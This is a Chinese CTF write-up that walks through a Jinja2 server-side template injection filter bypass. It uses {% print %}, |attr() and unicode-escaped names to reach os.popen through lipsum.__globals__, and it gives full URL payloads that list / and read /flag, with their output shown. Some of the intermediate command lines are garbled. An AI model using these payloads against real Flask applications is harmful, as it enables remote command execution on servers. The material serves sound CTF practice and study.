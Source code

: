 bp爆破一下，发现{{，[，]，__，'，*，.全部被ban了

输入：?url={%print(2)%}，成功绕过“{{”，并得到回显this is your url 2

因为.和[和'都被ban了，所以这里只能用attr绕过{%print(()|attr("__class__"))%}

但由于__等被ban了，所以这里用unicode绕过

__class__的unicode编码是\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f

故payload：

url={%print(()|attr(%22\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f%22))%}

得到回显：this is your url <class 'tuple'>

调用flask里的lipsum方法，`lipsum.__globals__`

`__globals__`的unicode编码为：\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f

故payload：

url={%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22))%}

引用os模块来进行命令执行{%print(lipsum|attr("globals__.get("os").popen("ls /").read())%}

Payload:

url={%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22)|attr(%22\u0067\u0065\u0074%22)(%22os%22)|attr(%22\u0070\u006f\u0070\u0065\u006e%22)(%22\u006c\u0073\u0020\u002f%22)|attr(%22\u0072\u0065\u0061\u0064%22)())%}

回显：

this is your url bin boot dev etc flag home lib lib64 media mnt opt proc root run run.sh sbin srv sys tmp usr var 

命令：

print(lipsum|attr("globals__.get("os").popen("cat /flag").read())%}

Payload:

url={%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22)|attr(%22\u0067\u0065\u0074%22)(%22os%22)|attr(%22\u0070\u006f\u0070\u0065\u006e%22)(%22\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067%22)|attr(%22\u0072\u0065\u0061\u0064%22)())%}

得到flag

 

参考文章：

[最全SSTI模板注入waf绕过总结（6700+字数！）_ssti注入绕过-CSDN博客](https://blog.csdn.net/2301_76690905/article/details/134301620)



------

### babyupload

打开发现可以上传文件，但经过尝试发现任何文件都无法上传。
